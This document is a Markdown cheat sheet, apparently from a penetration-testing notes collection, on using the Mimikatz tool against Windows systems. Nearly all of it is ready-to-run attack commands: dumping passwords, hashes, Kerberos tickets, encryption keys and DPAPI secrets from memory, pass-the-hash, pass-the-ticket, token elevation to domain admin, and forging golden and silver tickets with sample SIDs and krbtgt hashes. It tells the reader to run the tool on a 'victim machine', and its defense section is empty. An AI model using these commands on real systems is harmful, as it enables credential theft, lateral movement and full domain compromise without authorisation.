


# Mimikatz

Mimikatz is an incredibly effective offensive security tool developed by gentilkiwi. It is a post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets. Other useful attacks are pass-the-hash, pass-the-ticket or building Golden Kerberos tickets. This makes post-exploitation lateral movement within a network easy for attackers. Mimikatz is a very powerful tool when attacking,or defending Windows Systems, it can also play with certificates or private keys, vault and more.

Mimikatz can only dump credentials and password hashes if it is executed from the context of a privilege user, like local admin.

[Mimikatz github(source)](https://github.com/gentilkiwi/mimikatz)

[Mimikatz binaries](https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810)

## Usage

Simply run the .exe as admin from where you can get the executable onto the victim machine.



From here there is a multitude of things we can run. Examples:

* `privilege::debug` - get debug rights (this or Local System rights is required for many Mimikatz commands).
* `sekurlsa::logonpasswords`[ ](https://adsecurity.org/?page_id=1821#SEKURLSALogonPasswords)- lists all available provider credentials. This usually shows recently logged on user and computer credentials.



* `sekurlsa::kerberos` - List Kerberos credentials for all authenticated users (including services and computer account)
* `sekurlsa::tickets` - Lists all available Kerberos tickets for all recently authenticated users, including services running under the context of a user account and the local computer’s AD computer account. Unlike kerberos::list, sekurlsa uses memory reading and is not subject to key export restrictions. sekurlsa can access tickets of others sessions (users).
* `kerberos::golden` – create golden/silver/trust tickets
* `kerberos::list` – List all user tickets (TGT and TGS) in user memory. No special privileges required since it only displays the current user’s tickets.Similar to functionality of “klist”.
* `kerberos::ptt` – pass the ticket. Typically used to inject a stolen or forged Kerberos ticket (golden/silver/trust).
* `token::elevate` – impersonate a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box
* `token::elevate /domainadmin` – impersonate a token with Domain Admin credentials.

and a lot more listed on the [Mimikatz Wiki](https://github.com/gentilkiwi/mimikatz/wiki)

## Quick Reference

Enable debug privileges

```
privilege::debug
```

## sekurlsa

Extract credentials from the system's memory

```
sekurlsa::logonpasswords
```

```
sekurlsa::logonPasswords full
```

dump and export Kerberos tickets from memory

```
sekurlsa::tickets /export
```

Pass the hash - PTH

```
sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

## kerberos

dump and export Kerberos tickets from memory associated with active user sessions

```
kerberos::list /export
```

Pass the ticket - PTT

```
kerberos::ptt c:\chocolate.kirbi
```

Create a Golden Ticket&#x20;

```
kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### TGT

Interact with and manipulate Kerberos tickets

```
kerberos
```

## ekeys

Dump encryption keys from the system's memory

```
sekurlsa::ekeys
```

## DPAPI

Extract and decrypt credentials protected by DPAPI (Data Protection API) from memory

```
sekurlsa::dpapi
```

## Silver / Golden Ticket


```
kerberos::golden /user:utilisateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /id:1107 /groups:513 /ticket:utilisateur.chocolate.kirbi
```


```
kerberos::golden /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /aes256:15540cac73e94028231ef86631bc47bd5c827847ade468d6f6f739eb00c68e42 /user:Administrateur /id:500 /groups:513,512,520,518,519 /ptt /startoffset:-10 /endin:600 /renewmax:10080
```


```
kerberos::golden /admin:Administrator /domain:CTU.DOMAIN /sid:S-1-1-12-123456789-1234567890-123456789 /krbtgt:deadbeefboobbabe003133700009999 /ticket:Administrator.kiribi 
```

## Defense

COMING SOON
